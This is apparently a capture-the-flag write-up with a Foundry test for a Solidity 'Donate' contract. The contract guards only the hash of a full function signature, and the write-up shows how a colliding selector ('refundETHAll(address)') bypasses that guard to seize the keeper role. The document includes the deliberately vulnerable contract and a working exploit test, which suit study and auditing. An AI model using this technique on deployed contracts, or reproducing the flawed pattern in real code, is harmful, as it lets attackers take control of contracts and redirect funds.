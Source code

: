 ## DonateHack attack

The Donate contract has a onlyOwner modifier that checks that the msg.sender is the `owner` or the Contract itselfe.  
Also the contract has a `secretFunction` that will call itself with arbitrary data.  
The only check in `secretFunction` is, that the `string memory f` is not 0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428 what resolves to the keccak256 of changeKeeper(address).

As we need to call the function `changeKeeper(address)` to update the `keeper` we need to find another function signature (0x09779838) that will take in a single address as the argument and result in another keccak256.

To find a match we can use the signature DB from samczsun https://openchain.xyz/signatures?query=0x09779838 - if there wouldn't be two possible funcitons for 0x09779838 we could try to brutforce to generate another keccak256 hash with xxxx(address) that results in 0x09779838......

## Test
forge test --match-contract=donateHack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract donateHack is Test {
    Donate donate;
    address keeper = makeAddr("keeper");
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        donate = new Donate(keeper);
    }

    function testhack() public {
        vm.startPrank(hacker);
		assertFalse(donate.keeperCheck()); // currently we're not the keeper
        // Hack Time        

        // https://openchain.xyz/signatures?query=0x09779838
        // refundETHAll(address) = 0x09779838 = changeKeeper(address)
        donate.secretFunction("refundETHAll(address)");

        assertTrue(donate.keeperCheck()); // now we're the keeper
    }
}

contract Donate {
    event t1(bytes _sig);
    address payable public keeper;
    address public owner;
    event newDonate(address indexed, uint amount);

    modifier onlyOwner() {
        require(
            msg.sender == owner || msg.sender == address(this),
            "You are not Owner"
        );
        _;
    }

    constructor(address _keeper) {
        keeper = payable(_keeper);
        owner = msg.sender;
    }

    function pay() external payable {
        keeper.transfer(msg.value);
        emit newDonate(msg.sender, msg.value);
    }

    function changeKeeper(address _newKeeper) external onlyOwner {
        keeper = payable(_newKeeper);
    }

    function secretFunction(string memory f) external {
        require(
            keccak256(bytes(f)) !=
                0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428,
            "invalid"
        );
        (bool success, ) = address(this).call(
            abi.encodeWithSignature(f, msg.sender)
        );
        require(success, "call fail");
    }

    function keeperCheck() external view returns (bool) {
        return (msg.sender == keeper);
    }
}
```